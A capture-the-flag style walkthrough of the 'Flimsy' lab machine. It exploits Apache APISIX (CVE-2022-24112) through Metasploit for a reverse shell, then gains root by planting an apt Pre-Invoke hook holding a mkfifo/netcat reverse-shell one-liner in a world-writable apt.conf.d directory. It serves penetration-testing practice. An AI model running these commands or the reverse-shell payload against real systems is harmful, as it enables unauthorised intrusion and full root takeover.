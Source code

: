 ### Flimsy Proving Grounds Practice

### Difficulty = Easy

### IP Address = 192.168.95.220

Nmap Scan:

```
┌──(mark__haxor)-[~/_/B2B/Pg/Practice/Flimsy]
└─$ nmap -sCV -A 192.168.95.220 -p22,80,3306,43500 -oN nmapscan
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-25 08:26 WAT
Nmap scan report for 192.168.95.220
Host is up (0.23s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
80/tcp    open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Upright
|_http-server-header: nginx/1.18.0 (Ubuntu)
3306/tcp  open  mysql   MySQL (unauthorized)
43500/tcp open  http    OpenResty web app server
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
|_http-server-header: APISIX/2.8
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.76 seconds
```

Checking out the web server on port 80 returns this page
![image](https://user-images.githubusercontent.com/113513376/214505542-9e232040-6453-4514-a3b7-7224a010ed54.png)

I'll start gobuster in background and check out the web server on port `43500` 

From the version nmap fingerprinted we can see the web server title

I'll check google for known exploits

And here's what i got [Exploit](https://www.exploit-db.com/exploits/50829)

So i'm gonna try it out

```
┌──(mark__haxor)-[~/_/B2B/Pg/Practice/Flimsy]
└─$ python exploit.py                                                            

                                   .     , 
        _.._ * __*\./ ___  _ \./._ | _ *-+-
       (_][_)|_) |/'\     (/,/'\[_)|(_)| | 
          |                     |          

                (CVE-2022-24112)
{ Coded By: Ven3xy  | Github: https://github.com/M4xSec/ }


[!] Usage   : ./apisix-exploit.py <target_url> <lhost> <lport>
```

I will run it again but this giving it the necessary arguments

```
┌──(mark__haxor)-[~/_/B2B/Pg/Practice/Flimsy]
└─$ python3 exploit.py http://192.168.95.220:43500/ 192.168.49.95 80

                                   .     , 
        _.._ * __*\./ ___  _ \./._ | _ *-+-
       (_][_)|_) |/'\     (/,/'\[_)|(_)| | 
          |                     |          

                (CVE-2022-24112)
{ Coded By: Ven3xy  | Github: https://github.com/M4xSec/ }


```

But for some reason it doesn't work it just hangs i think its cause of the payload being sent to the server or the routing isn't ok

I don't want to start debugging and passing the request through a proxy though its a good practice 

So i'll use metasploit xD

```
msf6 exploit(multi/http/apache_apisix_api_default_token_rce) > run

[-] Handler failed to bind to 192.168.49.95:80:-  -
[-] Handler failed to bind to 0.0.0.0:80:-  -
[-] Exploit failed [bad-config]: Rex::BindFailed The address is already in use or unavailable: (0.0.0.0:80).
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/apache_apisix_api_default_token_rce) > search apisix

Matching Modules
================

   #  Name                                                    Disclosure Date  Rank       Check  Description
   -  ----                                                    ---------------  ----       -----  -----------
   0  exploit/multi/http/apache_apisix_api_default_token_rce  2020-12-07       excellent  Yes    APISIX Admin API default access token RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/apache_apisix_api_default_token_rce

msf6 exploit(multi/http/apache_apisix_api_default_token_rce) > use 0
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(multi/http/apache_apisix_api_default_token_rce) > set rhosts 192.168.95.220
rhosts => 192.168.95.220
msf6 exploit(multi/http/apache_apisix_api_default_token_rce) > set lhost tun0
lhost => tun0
msf6 exploit(multi/http/apache_apisix_api_default_token_rce) > set rport 43500
rport => 43500
msf6 exploit(multi/http/apache_apisix_api_default_token_rce) > set lport 80
lport => 80
msf6 exploit(multi/http/apache_apisix_api_default_token_rce) > run

[*] Started reverse TCP handler on 192.168.49.95:80 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking component version to 192.168.95.220:43500
[+] The target appears to be vulnerable.
[*] Command shell session 1 opened (192.168.49.95:80 -> 192.168.95.220:46794) at 2023-01-25 08:50:44 +0100

whoami
franklin
id
uid=65534(franklin) gid=65534(nogroup) groups=65534(nogroup)
```

Now i'll get a more stable shell 

```
┌──(mark__haxor)-[~]
└─$ nc -lvnp 445 
listening on [any] 445 ...
connect to [192.168.49.95] from (UNKNOWN) [192.168.95.220] 51618
$ which python3
which python3
/bin/python3
```

To stabilize 

```
python3 -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
CTRL + Z
stty raw -echo;fg
reset
```

Now lets escalate privilege

Checking crontab we see there's a cron running apt-update

```
franklin@flimsy:/tmp$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root apt-get update
* * * * * root /root/run.sh
franklin@flimsy:/tmp$ 
```

By default the apt update files are stored in `/etc/apt/apt.conf.d`

Now we see its also writeable 

```
franklin@flimsy:/etc/apt$ ls -l
total 32
drwxrwxrwx 2 root root 4096 Aug 24 16:06 apt.conf.d
drwxr-xr-x 2 root root 4096 Apr  9  2020 auth.conf.d
drwxr-xr-x 2 root root 4096 Apr  9  2020 preferences.d
-rw-r--r-- 1 root root 2717 Jun 15  2022 sources.list
-rw-r--r-- 1 root root 2743 Feb 23  2022 sources.list.curtin.old
drwxr-xr-x 2 root root 4096 Jun 30  2022 sources.list.d
-rw-r--r-- 1 root root 1188 Jun 30  2022 trusted.gpg
drwxr-xr-x 2 root root 4096 Jun 30  2022 trusted.gpg.d
franklin@flimsy:/etc/apt$ 
```

Oh cool so we can write into the apt.conf.d directory

I'll put a bash reverse shell in that directory

```
echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.95 80 >/tmp/f"};' > shell
```

After a minute i get a connection back on the netcat listner on port 80

```
┌──(mark__haxor)-[~/Desktop/Scripts]
└─$ nc -lvnp 80  
listening on [any] 80 ...
connect to [192.168.49.95] from (UNKNOWN) [192.168.95.220] 44514
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls -al
total 80
drwx------  9 root root 4096 Jan 25 08:08 .
drwxr-xr-x 19 root root 4096 Jun 15  2022 ..
lrwxrwxrwx  1 root root    9 Jun 30  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r--  1 root root 8072 Jun 18  2022 build.sh
drwx------  2 root root 4096 Jun 16  2022 .cache
drwx------  3 root root 4096 Jan 23 10:27 default.etcd
drwxr-xr-x  4 root root 4096 Jun 30  2022 flimsy
-rw-r--r--  1 root root 1085 Jun 30  2022 .group.bak
drwxr-xr-x  3 root root 4096 Jun 16  2022 .local
-rw-------  1 root root  854 Jun 30  2022 nohup.out
-rw-r--r--  1 root root 2930 Jun 30  2022 .passwd.bak
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-------  1 root root   33 Jan 25 08:08 proof.txt
drwxr-xr-x  2 root root 4096 Jun 30  2022 .rpmdb
-rwxrwxrwx  1 root root  154 Jun 30  2022 run.sh
-rw-r--r--  1 root root 1745 Jun 30  2022 .shadow.bak
drwx------  3 root root 4096 Jun 15  2022 snap
drwx------  2 root root 4096 Jun 15  2022 .ssh
-rw-r--r--  1 root root  165 Jun 30  2022 .wget-hsts
# cat proof.txt
99c81324a8afcb7560a6ca56428c22a3
#
```

And we're done 

<br> <br>
[Back To Home](../../index.md)
<br>
  


